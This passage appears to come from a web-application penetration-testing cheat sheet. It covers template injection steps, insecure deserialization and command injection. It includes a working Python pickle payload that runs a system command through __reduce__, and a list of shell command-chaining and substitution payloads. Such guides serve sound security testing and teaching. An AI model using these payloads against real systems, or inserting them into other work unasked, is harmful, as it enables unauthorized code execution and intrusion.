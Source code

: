### Exploitation Steps
1. Find template input fields
2. Test with basic math expressions
3. Escalate to command execution
4. Achieve remote code execution

---

## 10. Insecure Deserialization

### 🎯 Target: Session handling or data processing

### Python Pickle Exploitation
```python
import pickle
import base64
import os

# Malicious payload
class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('whoami',))

# Serialize and encode
payload = pickle.dumps(EvilPickle())
encoded = base64.b64encode(payload)
```

### Testing Steps
1. Identify serialized data in cookies/requests
2. Create malicious serialized objects
3. Replace legitimate data with payload
4. Trigger deserialization

---

## 11. Command Injection

### 🎯 Target: System command execution points

### Basic Injection Payloads
```bash
# Command chaining
; whoami
&& whoami
|| whoami
| whoami

# Command substitution
`whoami`
$(whoami)
```
